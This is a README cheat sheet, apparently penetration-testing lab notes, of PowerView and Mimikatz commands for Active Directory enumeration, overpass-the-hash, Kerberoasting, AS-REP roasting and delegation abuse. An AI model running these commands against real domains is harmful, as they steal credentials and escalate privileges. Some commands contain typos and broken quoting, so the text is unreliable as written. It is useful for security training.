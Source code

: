 # Active-Directory
This Repository will contains various tools,scripts and commands used in Active Directory Enumeration and Exploitation


## Domain Enumeration
```
Get-NetDomain: it will Give  basic info about the other domain
Get-Net-Domain -Domain abc.local : it will give info about a domain "abc.local"
Get-DomainSID: Will give SID of current domain
Get-DomainPolicy: Will give info about the policies if the current doamin.
Get-NetDomainController: Info about the domain controller
```
## User Enumeration
```
Get-netuser: List all users in the current domain
Get-netuser -username test123 : Give info about the user test123
Get-UserProperty: List all properties of the user in current domain.
Get-UserProperty -properties pwdlastse: It will give info about the a property pwdlastset of all users in current domain.
Get-NetLoggedon -Computername server16 : It will tell all the users which are actively logged on to the computer.
Get-loggedonLocally : It will list all users who are logged in locally on the computer.
Get-LastLoggedon -Computername server016 : It will list user which have last logged on to the computer.
```
## Computer Enumeration

```
Get-NetComputer : It will list down all the computer object in the domain
Get-Netcomputer -FullData : It will list down all the properties of all computer objects in the domain.
Get-Netcomputer -OperatingSystem "*Server 2016*" : It will list down all the computer objects having Server 2016 as their operating system.
Get-Netcomputer -FullData | select OperatingSystem : It will list down all the OperatingSystem Property of all the computer objects.
Get-Netcomputer -Ping : It will check which of the computer objects are live in the domain.

```

## Group Enumeration

```
Get-NetGroup: It will list down all the groups 
Get-Netgroup 'Domain Admin' : It will check whether the Domain Admin group exists or not.
Get-Netgroup -GroupName "*admin*": It will return all those groups whose name contain the word "admin".
Get-NetgroupMember -groupname 'Domain Admin' : It will list down the members of the domain admins.
Get-Netgroup -Username "studentx" : Get the group membership of the user "studentx"
Get-netlocalgroup -computername xyz-dc.abc.local" List all local group on a machine.
```

## GPO Enumeration

### Group Policy allows you to centralize the management of computers on your network without having to physically go to and configure each computer individually. 
```
Get-NetGPO : List all the GPO in the current domain
Get-NetGPO -cpmputername xyz-dc.acbc.local : Get all GPOs of a particuler machine
Find-GPOComputerAdmin -computername xz-dc.abc.local: Get users which are in local group of a machine Using GPO

```
## OU Enumeration
```
Get-NetOU -Fulldata : Give info about the OUs in a domain.
```

## ACL Enumeration

### ACL Stands for Access Control List , which comprises of ACEs, Access Control Entries. ACEs corresponds to individual permissions or audit access , which means ACEs will tell who has what permission on an object

```
Get-ObjectACL -Samaccountname studentx  -ResolveGUIDs : Will give ACL associated with user "studentx".
Invoke-ACLScanner -ResolveGUIDs: will give all the interesting ACEs.
```

## Interesting User Hunting

```
Find-LocalAdminAccess  -Verbose : It will give you list of all machines in current domain 
Invoke-EnumerateLocalAdmin -verbose: Find all local admins on all machine  of current domain.

Invoke-Userhunter: Find computer where a domain admin has sessions.
Invoke-Userhunter  -GroupName  "RDPUsers" : Find computers where a "RDPUsers" has sessions.
Invoke-Userhunter -CheckAccess : To confirm admin access
```
## Lateral Movement

- New-Pssession -Computername xz-dc.abc.local -Credential $cred : Will give new powershell session on computer xz-dc.abc.local , the variable "cred" contains the credential for the target machine.

- Invoke-command -Scriptblock {whoami} -computername xz-dc.abc.local : It will execute command whoami on computer xz-dc.abc.local , for asking for credentiall add parameter -Credential.

- Invoke-command -Scriptblock ${function:Invoke-Mimikatz}  -computername xz-dc.abc.local :  It will execute Invoke-Mimikatz function on target machine , if mimikatz is loaded into it.

- Invoke-Mimikatz -command '"sekurlsa::pth /user:studentx /domain:abc.local /ntlm: <ntlm hash of user studentx> /run:powershell.exe"' : This method is known as OverPasstheHash attack . This will open a new powershell process as studentx user.
  
 
## Privilege Escalation 

### Kerberos
  
- Find User Account Used as Service Account
-      Get-NetUser -SPN
- Requesting a TGS
-      Add-Type -AssemblyName System.IdentityModel 
-      New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName"
- Export all ticket using Mimikatz
-      Invoke-Mimikatz -Command '"kerberos::list /export"'
- Cracking the hash using john or hashcat
  
### AS-REP Roasting

- Enumerating Account with Preauth Disabled
-     Get-DomainUser -PreauthNotRequired -Verbose
- Requesting Encrypted AS-REP for offline brueforcing
-     Get-ASRepHash -Username studentx -verbose
  
### Unconstrained Delegation
  
- Discover the computers having unconstrained Delegation (Require Access to the server having unconstrained delegation)
-    Get-Netcomputer -Unconstrained 
- Run mimikatz to check if any domain admin ticket is available 
-    Invoke-Mimimkaz -command '"sekurlsa::tickets /export"'
- The token can be reused
-    Invoke-Mimikatz -command '"kerberos::ptt ticket.kirbi"'
 
### Constrained Delegation
- Enumerate Users and Computers with constrained Delegation (Requires Access to the server or user having constrained delegation)
-     Get-DomainUser -TrustedtoAuth
-     Get-DomainComputer -TrustedtoAuth
- Using Kekeo to request for TGT
-     tgt::ask /user:websvc /domain:abc.local /rc4:<ntlm hash of server having unconstrained delegation>
- Using kekeo to request for TGS
-     tgs::s4u  /tgt:tgt_ticket.kirbi /user:<target user> /service:<allowed_service>
- Using Mimikatz to inject ticket in memory
-     Invoke-Mimikatz -command '"kerberos::ptt ticket.kirbi'"
  
  

